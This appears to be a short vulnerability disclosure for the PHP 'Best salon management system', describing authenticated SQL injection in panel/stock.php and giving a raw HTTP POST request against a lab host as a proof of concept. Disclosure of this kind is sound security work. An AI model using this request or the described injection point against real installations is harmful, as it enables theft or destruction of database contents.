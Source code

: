



The Best salon management system has an SQL injection vulnerability. If an attacker is authenticated, they can exploit this vulnerability to steal information or damage the database.





Source code address：https://www.sourcecodester.com/php/18171/best-salon-management-system-project-php.html



Loopholes in barbarbaba/panel/stock. PHP file, in the code to receive the user submits the data and then update the information in the database, there is a direct and joining together of SQL statements, didn't do too many restrictions, pose a safety hazard.

![image-20250621120859112](images/image-20250621120859112.png)



Vulnerability verification：

```
POST /barbarbaba/panel/stock.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 50
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/barbarbaba/panel/manage-services.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9qunanken3a3eh5ub3i2aegl9i
Connection: close

ID=11&opening_stock1=34&opening_stock=1111&submit=
```

 ![image-20250621120756275](images/image-20250621120756275.png)



































